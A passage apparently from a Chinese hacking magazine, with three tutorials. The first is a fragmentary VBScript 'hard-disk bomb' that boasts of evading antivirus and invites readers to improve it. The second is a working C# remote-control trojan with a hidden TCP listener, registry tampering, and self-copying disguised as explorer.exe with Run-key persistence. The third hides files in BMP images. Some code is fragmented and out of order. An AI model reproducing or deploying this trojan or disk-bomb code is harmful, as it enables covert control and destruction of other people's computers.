当对象 FS 的 drivertype 属性返回驱动器的类型，2 为驱动器具有固定介质（不可删除的），包括可删除硬盘在内的所有硬盘驱动器。而 3 为网络驱动器，包括在网络上任何地方都可以共享的驱动器。

fs.GetFolder是调用scripting.filesystemobject对象的GetFolder方法返回一个和指定路径中文件夹相对应的 Folder 对象，而SubFolders是

```vb
makf(d.Path)
folderlist ( d.Path & "" )
End If
Next
End Sub
```

怎么样，大家都看懂了吧？其实我的程序有点像 HAPPYTIME 破坏部分的代码，要是谁有兴趣，可以比较一下。

## PROGRAMMING ANALYSE

现在打开 Microsoft 的笔记本，把以上的代码敲进去，然后以一个 *.VBE 结尾的文件方式存盘。如图 3 所示。这样，自己的原创“硬盘炸弹”就编好了！如果你不想自己的机器被炸的话，应该怎么做，我就不提了！





```vb
alldr
END SUB
Sub makf(PATT)
On Error Resume Next
fs.DeleteFile (PATT & "\11111111111.PIF")
fs.DeleteFile (PATT &"\22222222222.URL")
'修复代码，调用 FS 对象的 DeleteFile 方法无条件的删除破坏文件
End Sub
Sub folderlist(foldersp)
On Error Resume Next
Dim f, f1, sf
Set f = fs.GetFolder(foldersp).SubFolders
For Each f1 In f
    makf(f1.path)
    folderlist ( f1.Path )
Next
End Sub

Sub alldr()
Dim dr, d
On Error Resume Next
Set dr = fs.Drives
For Each d In dr
    If d.drivertype = 2 Then
        makf(d.Path)
        folderlist ( d.Path & "" )
    End If
Next
End Sub
```

因为本程序属于脚本程序，用现在最新的《金山毒霸》查不出是“硬盘炸弹”，所以希望大家能正确应用。此程序威力很大，就算你装了 Windows 98/2000/XP 3 个系统，你的机器也启动不起来！

- 解决方法：
- 1. 首先在网上不要得罪人，别人要是把炸弹加在邮件里或是直接在网上申请一个个人主页让你去看，估计你的机器肯定会挂！
- 2. 要是自己真的中了“炸弹”，不要惊慌，只要把机器硬盘格了，什么炸弹都没用了。
- 3. 要是硬盘中真的有重要的东西，不想格硬盘，只能进入 DOS 状态下手工删除所有炸弹产生的 11111111111.PIF 22222222222.URL（庆幸文件名不是随机的）！
- 4. 如果觉得以上方法都不行，就用一台机器（没中过炸弹）启动，把被炸的硬盘插上，运行下边程序（不要在 Windows 下打开被炸硬盘），不然就像如图 4 那样，需要耐心等待。

```vb
On Error Resume Next
Set fs = CreateObject("scripting.filesystemobject")
Mload
Sub mload()
```

两个程序都在 C500 128MB 20G 下运行成功，程序运行时并无异常现象。有兴趣的读者可以改编代码，像加入随机的产生文件名的方法，有优先权地向目录写入，或用别的语言改写，编译为可执行文件等等。请勿用于破坏。

## 用C#实现木马程序


微软在本世纪初提出了.Net战略方案，其开发平台VS.net是现有VS 6.0的接班人。而C#则是微软VS.Net中的一个主推语言。本文作者就近期流行语言“C#”写了一个简单的木马程序，不知读者看过之后是否产生去学习新语言、新知识的冲动呢?

文/落叶夏日

## 木马介绍:

阅读前参照《黑客防线》2000-2001精华本中的木马原理揭秘。

因为本程序是木马程序，所以在介绍之前有一些木马构成的基本知识需要事先说明，下面很多地方会提到这些内容。一个完整的木马系统由硬件部分、软件部分和具体连接部分组成。这里主要介绍软件部分，它主要由控制端程序、木马程序(后台服务程序)、木马配制程序组成。控制端用以远程控制服务端的程序;木马程序是潜入服务端内部，获取其操作权限的程序;木马配制程序是设置木马程序的端口号、触发条件、木马名称等，使其在服务端藏得更隐蔽的程序。

## 使用的技术:

控制端程序发送控制码控制服务器，服务器后台运行，修改注册表达到控制的目的。技术不是很难，主要体现C#的网络编程和注册表的修改。

## 控制端的开发:

控制端向服务器发出一段控制码，服务端(木马程序)收到控制码后，根据控制的要求，完成指定的要求。如果服务器完成工作，返回成功的信息。

## 控制码的开发:

控制码可以自已设定，不需要详解，主要有以下几个难点:

- 1. 连接请求。

使用了.NET类中的 System.Net.Sockets.TcpClient类。

```csharp
// System.EventArgs 包含事件数据类的基类
private void button7_Click(object sender, System.EventArgs e)
{
    //记录操作,在richTextBox 控件中增加操作信息
    richTextBox1.AppendText("请求连接" +textBox1.Text +"\r");
    int port =6678;
    try
    {
        //初始化 TcpClient 类的新实例并连接到指定主机上
        //的指定端口
        client = new TcpClient(textBox1.Text,port);
    }
    catch
    {
        MessageBox.Show("服务器不在线!确定是否输入主机名称.");
        richTextBox1.AppendText("服务器不在线!确定是否输入主机名称.");
    }
}//private void buttion
```

TcpClient(string hostname,int port)
Hostname 是要控制的主机名称，当然你也可以用IP地址。Port是端口。

- 2. 测试是否与被控制机连接上。程序的流程是发送控制码，看控制端是否有反应，如果有返回，则显示控制成功。

```csharp
//提供网络访问的数据流
//private NetworkStream stream;
```

```csharp
代码如下：
private void button8_Click(object sender, System.EventArgs e)
{
    // 纪录操作
    richTextBox1.AppendText(" 测试连接 " +"\r");
    try
    {
        stream = client.GetStream();
        if(stream.CanWrite)
        {
            // 发送控制码
            string control = "jiance";
            byte[] by =System.Text.Encoding.ASCII.GetBytes(control.ToCharArray());
            stream.Write(by,0,by.Length);
            // 下次使用
            stream.Flush();
            // 启动接收反回数据的线程
            //receive 是线程执行的函数，见后面的分析
            threadReceive = new Thread(new ThreadStart(receive));
            threadReceive.Start();
        }
    }
    catch(Exception ee)
    {
        richTextBox1.AppendText (ee.Message+"\r");
        MessageBox.Show(ee.Message);
    }
}
```

```csharp
MessageBox.Show(" 你没有输入任何控制目标!不发控制信号 ");
richTextBox1.AppendText(" 你没有输入任何控制目标!不发控制信号 ");
}
else if(control != "000000")
{
    try
    {
        // 记录操作
        richTextBox1.AppendText (control + " 正在试图控制,等待回应......" + "\r");
        stream = client.GetStream();
        if(stream.CanWrite )
        {
            byte[] by = System.Text.Encoding.ASCII.GetBytes(control.ToCharArray ());
            stream.Write(by,0,by.Length);
            stream.Flush();
            threadReceive =new Thread(new ThreadStart(receive));
            threadReceive.Start();
        }//endif
    }//try
    catch
    {
        richTextBox1.AppendText(" 服务器未连接 1 控制无效! " +"\r");
        MessageBox.Show(" 服务器未连接 1 控制无效! " +"\r");
    }//else if
}
```

## 3. 控制生效的代码。

```csharp
private void button9_Click(object sender, System.EventArgs e)
{
    // 这里是确定要发送的控制码，RadioButton 是窗体控件
    if(radioButton1.Checked){ control = form2.zhucex;}
    else if(radioButton2.Checked){ control =form3.zhuces;}
    else if(radioButton3.Checked){ control = warring;}
    else if(radioButton4.Checked){ control =suggest;}
    else if(radioButton5.Checked){ control =form4.mumawe;}
    else if(radioButton6.Checked){ control =drop;}
    if (control =="000000")
    {
```

## 4. 线程执行的函数。

```csharp
private void receive()
{
    // 设置读取数据的空间
    byte[] bb = new byte[3];
    // 读取3个字节,i 为实际读取的字节数
    int i = stream.Read(bb,0,3);
    // 转换成字符串，如果是中文控制码则用 string ss = //System.Text.Encoding.Unicode.GetString(bb);
    string ss = System.Text.Encoding.ASCII.GetString(bb);
    //hjc 为我设置的服务器的返回码 .hjc 为连接成功，hkz 为控制成功
    if(ss=="hjc")
    {
        MessageBox.Show(" 连接成功 ");
        richTextBox1.
```

```csharp
AppendText(" 连接成功 ");
            }
            if(ss== "hkz")
            {
                richTextBox1.AppendText(control +" 控制成功 "+"\r");
                MessageBox.Show(control +" 控制成功 "+"\r");
            }
        }
```

## 服务端的开发：

要实现木马服务的程序，主要实现以下几个功能：后台的运行（隐藏技术）、控制码的接收与注册表的修改。

- 1. 在C#中，建立一个后台服务程序是很容易的，先建立一个新的C#的Windows应用程序，项目名称自定（为了隐藏，可使用与系统相近的名称），将窗体属性“ShowInTaskbar”属性设为false，让它运行时不会在任务栏中显示，并将属性“WindowState”属性设为Minimized即可，这样窗体就可以隐藏运行了。当然你也可以在InitializeComponent()设置，此函数起初始化的作用，在窗体显示前运行，代码如下：

```csharp
private void InitializeComponent()
{
    //
    // Form1
    //
    // 窗体显示的起点和大小
    this.AutoScaleBaseSize = new System.Drawing.Size(6, 14);
    this.ClientSize = new System.Drawing.Size(368, 357);
    // 窗体名称
    this.Name = "Form1";
    // 设置属性让它后台运行
    this.ShowInTaskbar = false;
    this.Text = "Form1";
    this.WindowState = System.Windows.Forms.FormWindowState.Minimized;
}
```

- 2. 控制代码的接收，必须在服务程序运行开始就启动，所以侦听线程必须在程序初始化中启动，放在窗体的构造函数中。

代码注解如下：

```csharp
public Form1()    // 窗体的构造函数
{
    //
    // Windows 窗体设计器支持所必需的
    //
    InitializeComponent();

    //
    // TODO: 在 InitializeComponent 调用后添加任何构造函数代码
    // 加入你的侦听代码
    // 端口你可以自己设定,我使用了固定的端口
    int port = 6678;
    // System.Net.Sockets.TcpListener 是用来在 Tcp 网络中侦听客户端的
    listener = new TcpListener(port);
    // 启动侦听
    listener.Start();
    // 增加接收控制码的线程,如果要停止线程可以用Thread.abort()
    // reControlCode 是线程启动执行的函数，此函数根据接收的控制
    // 控制码选取合适的注册表修改函数
    Thread thread = new Thread(new ThreadStart(reControlCode));
    thread.Start();
}
```

`reControlCode` 函数如下，完整代码见程序：

```csharp
private void reControlCode()
{
    // 设置接收套接字,接收 listener.AcceptSocket 是返回已经接收的客户的请求
    socket = listener.AcceptSocket();
    // 如果连接成功执行
    while (socket.Connected)
    {
        // 接收控制码
        byte[] by = new byte[6];
        int i = socket.Receive(by, by.Length, 0);
        string ss = System.Text.Encoding.ASCII.GetString(by);
        // 根据控制码执行不同的功能
        // 修改注册表加入编码
        switch (ss)
        {
            case "jiance":// 测试连接,返回测试信息
                string str = "hjc";
                byte[] bytee = System.Text.Encoding.ASCII.GetBytes(str);
                socket.Send(bytee, 0, bytee.Length, 0);
                break;
            case "zx1000":
                // 修改注册表函数,自己定义,见下面分析
                UnLogOff();
                // 返回控制消息
                retMessage();
                break;
            case "zx0100":
                // 修改注册表函数
                UnClose();
                // 返回控制消息
                retMessage();
                break;
            // 重复的case功能与前面一样,略掉
            default:
                break;
        }//case
    }//while
} //private void reControlCode
```

```csharp
key1 = rLocal.OpenSubKey("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer", true);
// 设置子键的键名,和值
key1.SetValue("NoLogOff", 1);
// 关闭打开的子键
key1.Close();
// 警告字符串设定
mystr = mystr + "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer 键值 Nologoff 被修改!请将它置为0!";
}
catch { }
// 如果不存在自己建立
if (key1 == null)
{
    try
    {
        // 使用RegistryKey.CreateSubKey(string mystring)函数来建立你需要的子键
        RegistryKey key2 = rLocal.CreateSubKey("SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer");
        key2.SetValue("NoLogOff", 1);
        key2.Close();
        mystr = mystr + "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer 键值 Nologoff 被修改!请将它置为0!";
    }
    catch { }
}
```

- 3. C#中实现注册表的修改，使用了.NET类库中的Microsoft.Win32命名空间，它提供两种类型的类：处理由操作系统引发的事件的类和对系统注册表进行操作的类。下面就可以看到它的用法。这里我做了一个修改注册表的子程序，使计算机不能注销。在这之前先了解注册表，在子键SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer 下面设键值NoLogOff为1，即可使计算机无法注销。在下面的函数中用C#实现对注册表的修改：

```csharp
private void UnLogOff()
{
    // 得到主机的注册表的顶级节点
    Microsoft.Win32.RegistryKey rLocal = Registry.LocalMachine;
    // 设置一个注册表子键的变量
    RegistryKey key1;
    try
    {
        // 函数RegistryKey.OpenSubkey(string registrykey, bool canwrite)检索指定的子键
        // registrykey 是用户指定的键值,canwrite 为true 则可修改,默认为false不可改
        key1 = rLocal.OpenSubKey("SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer", true);
        // 设置子键的键名,和值
        key1.SetValue("NoLogOff", 1);
        // 关闭打开的子键
        key1.Close();
        // 警告字符串设定
        mystr = mystr + "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer 键值 Nologoff 被修改!请将它置为0!";
    }
    catch { }
    // 如果不存在自己建立
    if (key1 == null)
    {
        try
        {
            // 使用RegistryKey.CreateSubKey(string mystring)函数来建立你需要的子键
            RegistryKey key2 = rLocal.CreateSubKey("SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer");
            key2.SetValue("NoLogOff", 1);
            key2.Close();
            mystr = mystr + "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer 键值 Nologoff 被修改!请将它置为0!";
        }
        catch { }
    }
}
```

- 4. 在木马程序中，还有一个重要的功能就是自我的复制和转移。木马引入被控制的主机时必须自动将木马隐藏在System, System32的目录下，以防被发现。转移的代码分析如下，主要实现的功能是将D盘下的木马程序转移到C:\winnt\system\msdoss.exe，同时换名称。使用的.NET命名空间System.IO，它的作用是允许对数据流和文件进行同步和异步读写。这里我们使用了System.IO.File类：

```csharp
private void moveCC1()
{
    try
    {
        // 函数 File.Move(string sourceFileName,string destFileName)起移动文件的作用
        // sourceFileName 为要移动的文件名，destFileName 为文件的新路径
        File.Move("C:\winnt\system\msdoss.exe", "d:\winnt\system32\explorer.exe");
    }
    catch { }
    // 将新移的木马程序设为自启动.分析和前面一样
    try
    {
        key1 = rLocal.OpenSubKey("SOFTWARE\Microsoft\Windows\CurrentVersion\Run", true);
        key1.SetValue("microsofttt", "d:\winnt\system32\explorer.exe");
        key1.Close();
    }
    catch { }
    if (key1 == null)
    {
        try
        {
            RegistryKey key2 = rLocal.CreateSubKey("SOFTWARE\Microsoft\Windows\CurrentVersion\Run");
            key2.SetValue("microsofttt", "d:\winnt\system32\explorer.exe");
            key2.Close();
        }
        catch { }
    } //moveCC1()
}
```

到这里，一个简单的 C# 的木马就完成了。如果有疑问，请到 www.vchelp.net 论坛的 C# 或 NET 版面和我讨论，或发信给我 chenweijun_sh@etang.com。当然，你也可以和黑防联系。

# 用挂接技术实现对文件的加密

文 / 王丽文

相信各位读者一定对加密非常感兴趣。下面我们将介绍的是非传统的方法，利用挂接技术实现对文件的加密，简单易行。

传统的加密方案中，为了使文件保密，通常采用自带的加密件或第三方软件进行加密。不可否认，当前很多采用加密算法在理论上的逆向运算、无法破解。但同样一个事实也摆在我们面前，即各种各样的有针对性的解密软件已在网上广为流传，诸如 Word、Access 等等，甚至为人们所公认的算法不可逆的 Winzip 的密码，在这些解密软件面前也已形同虚设。这种情况下，作为一种新的加密思路，本文所述的挂接加密的方法的优越性即不言而喻。

本文所讲的挂接加密方案并非传统意义上的为文件设定密码，而是以一种全新的观念，将待保密文件挂接于另一文件内。非法使用者即使得到了挂接文件，由于其潜意识中对文件加密的认识以及对挂接技术了解的限制等原因，成功破解的可能性也极小。同时，也可以在原有加密技术的基础上配合使用本方法，使其保密度再次提升。下面笔者提供一挂接程序源文件，将这种想法实现，希望能对大家有所启发。

进入 VB 6.0 中文版，新建一工程，并添加 Microsoft Common Dialog Control6.0 控件，命名为：cdlog，添加以下代码至代码窗口：

```vb
Option Explicit
Dim glbmpsize As Long
Private Sub Form_Load()
    ' 定义 bmpfilename 为字符串变量，用来保存挂接母体
    ' 文件(*.bmp)
    Dim bmpfilename As String
    ' 定义filename为字符串变量，用来保存待挂接文件
    Dim filename As String
    ' 定义flag为布尔型变量，标识BMP文件中是否已有挂接文件
    Dim flag As Boolean
    ' 隐藏窗体
    Me.Hide
    cdlog.Filter = "请选择位图文件(*.bmp)|*.bmp"
    ' 调用CommonDialog控件，显示打开文件窗口准备载入挂接母体文件
    cdlog.ShowOpen
    ' 取得挂接母体文件名
    bmpfilename = cdlog.filename
    ' 如果此值为空的话，退出程序
    If bmpfilename = "" Then End
    cdlog.filename = ""
    ' 取文件信息
    flag = getbmpmsg(bmpfilename)
    If flag Then
        ' 显示打开文件窗体，载入被挂接文件
        cdlog.Filter = "请选择要挂接的文件(*.*)|*.*"
        cdlog.ShowOpen
        filename = cdlog.filename
        ' 如果值为空则退出程序
        If filename = "" Then End
        ' 如果被挂接文件与挂接母体文件是同一文件的话，提示出错
        If bmpfilename = filename Then
            MsgBox "不能以自身为载体挂接文件", vbOKOnly + vbExclamation
        Else
            ' 调用linkbmpfile()对文件进行挂接操作
            Call linkbmpfile(bmpfilename, filename)
            ' 操作完成，提示挂接成功信息
            MsgBox "文件挂接成功", vbOKOnly + vbInformation
        End If
    Else
        ' 显示保存文件窗口，保存BMP文件中的被挂接文件
        cdlog.Filter = "请保存要提取的文件(*.*)|*.*"
        cdlog.ShowSave
        filename = cdlog.filename
        If filename = "" Then End
        ' 如果选择此BMP文件为保存文件的话，提示出错
        If bmpfilename = filename Then
            MsgBox "不能将文件保存为载体文件", vbOKOnly + vbExclamation
        Else
            Call splitbmpfile(bmpfilename, filename)
            ' 操作完成，提示
            MsgBox "文件保存完成", vbOKOnly + vbInformation
        End If
    End If
End Sub
```

```vb
' 此函数通过对文件大小的识别，判断BMP文件体内是否已经存在挂接文件
Private Function getbmpmsg(bmpfile As String) As Boolean
    getbmpmsg = True
    Open bmpfile For Binary Access Read As #1
    Seek #1, 3
    Get #1, , glbmpsize
    Close #1
    ' 比较文件长度
    If glbmpsize < FileLen(bmpfile) Then
        ' 如果文件体内标识长度小于文件实际长度的话，说明文件体内已有挂接文件，getbmpmsg为假
        getbmpmsg = False
    End If
End Function
```

```vb
' 此函数实现文件挂接操作
Private Sub linkbmpfile(bmpfile As String, file As String)
    Dim icount As Integer
    Dim bytbuffer As Byte
    ' 以二进制形式打开挂接母体文件
    Open bmpfile For Binary As #1
    ' 以Read模式打开被挂接文件
    Open file For Binary Access Read As #2
    ' 跳至文件尾
    Seek #1, glbmpsize
    ' 开始挂接文件
    Do While Not EOF(1)
        Get #1, , bytbuffer
    Loop
    Get #2, , bytbuffer
    Do While Not EOF(2)
        Put #1, , bytbuffer
        Get #2, , bytbuffer
    Loop
    ' 操作完成，关闭挂接母体文件和被挂接文件
    Close #2
    Close #1
End Sub
```

```vb
' 此函数实现分离挂接文件
Private Sub splitbmpfile(bmpfile As String, file As String)
    Dim icount As Integer
    Dim bytbuffer As Byte
    ' 打开文件
    Open bmpfile For Binary Access Read As #1
    Open file For Binary Access Write As #2
    ' 跳转至挂接母体文件尾，读取数据，并重写为文件
    Seek #1, glbmpsize + 1
    Get #1, , bytbuffer
    Do While Not EOF(1)
        Put #2, , bytbuffer
        Get #1, , bytbuffer
    Loop
    ' 结束，关闭文件
    Close #2
    Close #1
End Sub
```



例程中，挂接源文件选用的是.bmp文件。正如我们所知道的，.bmp文件是Windows系统的图形文件格式，由于其独特的文件结构，文件运行时，只从体内的文件信息对文件操作，而并不检测文件的实际长度。而其他众多文件类型都有各自的自我检测动作，当发现错误时，自动纠正，或报告错误。bmp文件的这点“优越性”对我们来说至关重要，这也正是我们选择它来作为挂接文件母体的原因。



在VB中编译生成exe文件后，即可执行。

- 1. 运行程序，即出现选择挂接母体bmp文件的选择框。如图1所示。
